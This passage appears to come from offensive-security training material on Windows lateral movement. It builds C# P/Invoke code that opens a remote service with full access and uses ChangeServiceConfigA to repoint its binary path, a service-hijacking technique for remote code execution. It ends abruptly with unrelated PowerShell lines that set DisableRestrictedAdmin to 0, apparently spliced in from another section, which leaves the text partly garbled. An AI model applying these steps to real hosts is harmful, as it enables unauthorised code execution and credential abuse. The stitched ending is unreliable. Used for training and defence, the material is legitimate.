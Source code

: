 > Listing 32 - P/invoke for OpenSCManagerW

Now that the import is complete and we understand the arguments we need to pass, we can update the code to call _OpenService_:

```
string ServiceName = "SensorService";
IntPtr schService = OpenService(SCMHandle, ServiceName, 0xF01FF);
```

> Listing 33 - Code to call OpenService

After the SensorService service has been opened, we must change the service binary with the _ChangeServiceConfigA_ API. The function prototype for this API is shown in Listing 34.

```
BOOL ChangeServiceConfigA(
  SC_HANDLE hService,
  DWORD     dwServiceType,
  DWORD     dwStartType,
  DWORD     dwErrorControl,
  LPCSTR    lpBinaryPathName,
  LPCSTR    lpLoadOrderGroup,
  LPDWORD   lpdwTagId,
  LPCSTR    lpDependencies,
  LPCSTR    lpServiceStartName,
  LPCSTR    lpPassword,
  LPCSTR    lpDisplayName
);
```

> Listing 34 - Function prototype for ChangeServiceConfigA

While the API accepts many arguments, we only need to specify some of them. The first (_hService_) is the handle to the service we obtained from calling _OpenService_. Next, _dwServiceType_ allows us to specify the type of the service.

We only want to modify the service binary so we'll specify _SERVICE\_NO\_CHANGE_ by its numerical value, 0xffffffff.

We can modify the service start options through the third argument (_dwStartType_). Since we want to have the service start once we have modified the service binary, we'll set it to _SERVICE\_DEMAND\_START_ (0x3). As the fourth argument, _dwErrorControl_ will set the error action and we'll specify _SERVICE\_NO\_CHANGE_ (0) to avoid modifying it.

The fifth argument (_lpBinaryPathName_) contains the path of the binary that the service will execute when started. This is what we want to update and as an initial proof of concept, we'll set this to "notepad.exe".

The final six arguments are not relevant to us and we can set them to null. The final piece we need is the P/invoke import of _ChangeServiceConfig_:[5](https://portal.offsec.com/courses/pen-300-9502/learning/windows-lateral-movement-14690/windows-lateral-movement-14937#fn-local_id_538-5)

```
[DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);
```


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit
